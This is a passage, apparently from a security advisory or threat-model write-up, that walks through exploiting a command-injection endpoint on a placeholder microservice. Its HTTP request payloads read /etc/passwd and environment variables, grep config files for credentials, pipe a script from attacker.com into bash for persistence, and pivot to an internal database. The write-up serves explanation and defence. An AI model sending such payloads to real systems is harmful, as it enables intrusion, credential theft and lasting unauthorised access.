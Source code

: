 ```
GET /run?cmd=ls%20-la%20%2F HTTP/1.1
Host: acme-microservice.example.com

```

After mapping the filesystem, the attacker examines configuration files and environment variables:

```
GET /run?cmd=cat%20/etc/passwd%3B%20env HTTP/1.1
Host: acme-microservice.example.com

```

**Scenario 2: Data Exfiltration**
Once the attacker understands the system layout, they locate and exfiltrate sensitive data:

```
GET /run?cmd=find%20/opt%20-name%20%22*.conf%22%20-o%20-name%20%22*.env%22 HTTP/1.1
Host: acme-microservice.example.com

```

The attacker then extracts database credentials from a configuration file:

```
GET /run?cmd=grep%20-E%20"password|user|credential|secret"%20/opt/acme/config/*.yml HTTP/1.1
Host: acme-microservice.example.com

```

**Scenario 3: Establishing Persistence**
The attacker creates a reverse shell to maintain access even if the vulnerability is patched:

```
GET /run?cmd=curl%20-s%20https://attacker.com/payload.sh%20|%20bash HTTP/1.1
Host: acme-microservice.example.com

```

The downloaded script creates a backdoor service, adds SSH keys, or establishes other persistence mechanisms.

**Scenario 4: Lateral Movement**
Using information gathered about the internal network from `/etc/hosts` and environment variables, the attacker pivots to other systems:

```
GET /run?cmd=ping%20-c%201%20internal-db.acme.local HTTP/1.1
Host: acme-microservice.example.com

```

The attacker then uses the compromised server to attack internal services that aren't directly accessible from the internet:

```
GET /run?cmd=curl%20-X%20POST%20-d%20'{"query":"SELECT%20*%20FROM%20users"}'%20http://internal-db.acme.local:8000/query HTTP/1.1
Host: acme-microservice.example.com

```
